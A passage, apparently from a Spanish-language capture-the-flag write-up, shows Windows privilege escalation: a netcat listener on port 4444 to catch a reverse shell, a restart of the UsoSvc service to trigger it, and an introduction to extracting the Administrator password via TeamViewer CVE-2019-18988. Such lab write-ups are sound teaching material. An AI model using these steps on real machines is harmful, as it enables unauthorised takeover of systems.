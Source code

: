 Ponemos a la escucha nuestro netcat.

`rlwrap nc -lvnp 4444`

Detenemos el servicio y lo iniciamos.

- `sc.exe stop UsoSvc`
- `sc.exe start UsoSvc`

![17](images/17.png)

![18](images/18.png)

### TeamViewer CVE-2019-18988

Hay una segunda forma de escalar privilegios la cual consiste en tomar el password del Administrador que se encuentra encryptado en los registros de Widows sobre **TeamViewer**.

![19](images/19.png)
